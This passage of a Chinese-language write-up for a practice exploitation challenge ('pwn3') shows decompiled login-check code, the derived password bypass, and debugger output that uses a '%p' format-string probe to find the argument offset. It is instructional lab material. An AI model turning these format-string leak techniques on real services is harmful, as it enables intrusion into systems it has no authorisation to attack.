 

密码绕过

```c
char *__cdecl ask_username(char *dest)
{
  char src[40]; // [esp+14h] [ebp-34h]
  int i; // [esp+3Ch] [ebp-Ch]

  puts("Connected to ftp.hacker.server");
  puts("220 Serv-U FTP Server v6.4 for WinSock ready...");
  printf("Name (ftp.hacker.server:Rainism):");
  __isoc99_scanf("%40s", src);
  for ( i = 0; i <= 39 && src[i]; ++i )
    ++src[i];    //输入的字符都会加1
  return strcpy(dest, src);
}

int __cdecl ask_password(char *s1)
{
  if ( strcmp(s1, "sysbdmin") )    //输入的用户名 自加1 后 等于sysbdmin就可以了  rxraclhm
  {
    puts("who you are?");          
    exit(1);
  }
  return puts("welcome!");
}
```





**确定格式化字符串参数偏移**

进行确定的偏移就要进入到  溢出点位置进行测试。通过 put 文件进行参数传递

```shell
Starting program: /home/toor/Desktop/pwn3 
Connected to ftp.hacker.server
220 Serv-U FTP Server v6.4 for WinSock ready...
Name (ftp.hacker.server:Rainism):rxraclhm
welcome!
ftp>put
please enter the name of the file you want to upload:1111
then, enter the content:AAAA%p%p%p%p%p%p%p%p%p%p
ftp>get
enter the file name you want to get:1111
AAAA0x804b4380x40x804833e0xf7e721e7(nil)0xf7fb85a00x414141410x702570250x702570250x70257025ftp>



Starting program: /home/toor/Desktop/pwn3 
Connected to ftp.hacker.server
220 Serv-U FTP Server v6.4 for WinSock ready...
Name (ftp.hacker.server:Rainism):rxraclhm
welcome!
ftp>put
please enter the name of the file you want to upload:2222
then, enter the content:AAAA%7$x     <===   偏移为7
ftp>get
enter the file name you want to get:2222
AAAA41414141ftp>
```
